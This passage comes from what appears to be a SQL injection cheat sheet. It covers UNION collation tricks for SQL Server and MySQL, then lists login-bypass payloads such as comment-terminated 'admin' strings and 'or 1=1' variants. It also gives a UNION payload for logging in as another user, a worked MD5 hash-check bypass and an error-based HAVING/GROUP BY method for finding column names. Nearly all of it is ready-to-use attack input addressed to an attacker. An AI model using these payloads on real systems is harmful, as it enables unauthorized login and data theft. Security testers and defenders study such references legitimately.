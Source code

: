 -   SQL Server (S)  
    Use  `field`  **`COLLATE`** `SQL_Latin1_General_Cp1254_CS_AS`  or some other valid one -  _check out SQL Server documentation_.  
      
    `SELECT header FROM news UNION ALL SELECT name COLLATE SQL_Latin1_General_Cp1254_CS_AS FROM members`  
      
    
-   MySQL (M)  
    `Hex()` for every possible issue

### Bypassing Login Screens (SMO+)

_SQL Injection 101_, Login tricks

-   `admin' --`
-   `admin' #`
-   `admin'/*`
-   `' or 1=1--`
-   `' or 1=1#`
-   `' or 1=1/*`
-   `') or '1'='1--`
-   `') or ('1'='1--`
-   ....

-   Login as different user (SM*)  
    `' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--`

_*Old versions of MySQL doesn't support union queries_

### Bypassing second MD5 hash check login screens

If application is first getting the record by username and then compare returned MD5 with supplied password's MD5 then you need to some extra tricks to fool application to bypass authentication. You can union results with a known password and MD5 hash of supplied password. In this case application will compare your password and your supplied MD5 hash instead of MD5 from database.

#### Bypassing MD5 Hash Check Example (MSP)

Username : `admin`  
Password :  `1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055`

`81dc9bdb52d04dc20036dbd8313ed055 = MD5(1234)`

### Error Based - Find Columns Names

#### Finding Column Names with  **HAVING BY**  - Error Based (S)

_In the same order,_

-   ' `HAVING 1=1 --`
-   `' GROUP BY  **table.columnfromerror1**  HAVING 1=1 --`
-   `' GROUP BY  **table.columnfromerror1, columnfromerror2**HAVING 1=1 --`
-   `' GROUP BY  **table.columnfromerror1, columnfromerror2, columnfromerror(n)** HAVING 1=1 --`  _and so on_
-   If you are not getting any more error then it's done.
